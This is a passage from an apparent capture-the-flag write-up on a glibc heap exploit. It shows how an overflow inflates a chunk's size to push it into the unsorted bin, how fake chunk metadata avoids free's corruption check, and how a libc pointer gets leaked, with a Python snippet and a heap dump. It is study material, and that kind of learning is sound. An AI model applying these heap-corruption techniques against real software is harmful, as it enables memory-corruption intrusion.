 # Overflow the size of a chunk to get it into unsorted bin

Before we can leak libc we first have to get a libc pointer on the heap. How this usually happens is through the unsorted bin. But in order to do that we would have to allocate a chunk of size > 0x408. But if you look closely at the **create** function allocations of size > 0x60 are not allowed.

What we do is we use our overflow to change the size of B to be >0x408 (i used 0x501) then we free it and it will end up in the unsorted bin. Then we allocate it back from the unsorted bin and use the overflow again to overflow up to the libc pointer and then view to print it out. 


Before we do all that we first have to make a fake chunk at B+0x500 where free will expect the next chunk to be. If there is nothing at B+0x500 free will detect heap corruption and abort. I was to lazy to do calculations so I just filled all of the padding chunks with fake chunk metadata.

```py

# padding za fake chunk
for i in range(15,30):
    create(padd(int.to_bytes(i,1,'little')), '96',b'R'*24 + b'\x00'*8 + p64(0x41))

```

heap layout : 


```
0x5565109c0290:	0x0000000000000000	0x0000000000000021 <- A
0x5565109c02a0:	0x0000000000000001	0x5858585858585858
0x5565109c02b0:	0x5858585858585858	0x5858585858585858 <- B
0x5565109c02c0:	0x00000005565109c0	0x7c13d35e6a1c315a
0x5565109c02d0:	0x0000000000000000	0x0000000000000051 <- C
0x5565109c02e0:	0x0000000000000001	0x4343434343434343
0x5565109c02f0:	0x0000000000000000	0x0000000000000000
0x5565109c0300:	0x0000000000000000	0x0000000000000000
0x5565109c0310:	0x0000000000000000	0x0000000000000000
0x5565109c0320:	0x0000000000000000	0x0000000000000071 <- Pad 0 
0x5565109c0330:	0x000000000000000f	0x5252525252525252
0x5565109c0340:	0x5252525252525252	0x5252525252525252
0x5565109c0350:	0x0000000000000000	0x0000000000000041 <- Fake 0 
0x5565109c0360:	0x0000000000000000	0x0000000000000000
0x5565109c0370:	0x0000000000000000	0x0000000000000000
0x5565109c0380:	0x0000000000000000	0x0000000000000000
0x5565109c0390:	0x0000000000000000	0x0000000000000071 <- Pad 1
0x5565109c03a0:	0x0000000000000010	0x5252525252525252
0x5565109c03b0:	0x5252525252525252	0x5252525252525252
0x5565109c03c0:	0x0000000000000000	0x0000000000000041 <- Fake 1
0x5565109c03d0:	0x0000000000000000	0x0000000000000000
0x5565109c03e0:	0x0000000000000000	0x0000000000000000
0x5565109c03f0:	0x0000000000000000	0x0000000000000000

...

0x5565109c08d0:	0x0000000000000000	0x0000000000000071 <- Pad 13
0x5565109c08e0:	0x000000000000001c	0x5252525252525252
0x5565109c08f0:	0x5252525252525252	0x5252525252525252
0x5565109c0900:	0x0000000000000000	0x0000000000000041 <- Fake 13
0x5565109c0910:	0x0000000000000000	0x0000000000000000
0x5565109c0920:	0x0000000000000000	0x0000000000000000
0x5565109c0930:	0x0000000000000000	0x0000000000000000
0x5565109c0940:	0x0000000000000000	0x0000000000000071 <- Pad 14
0x5565109c0950:	0x000000000000001d	0x5252525252525252
0x5565109c0960:	0x5252525252525252	0x5252525252525252
0x5565109c0970:	0x0000000000000000	0x0000000000000041 <- Fake 14
0x5565109c0980:	0x0000000000000000	0x0000000000000000
0x5565109c0990:	0x0000000000000000	0x0000000000000000
```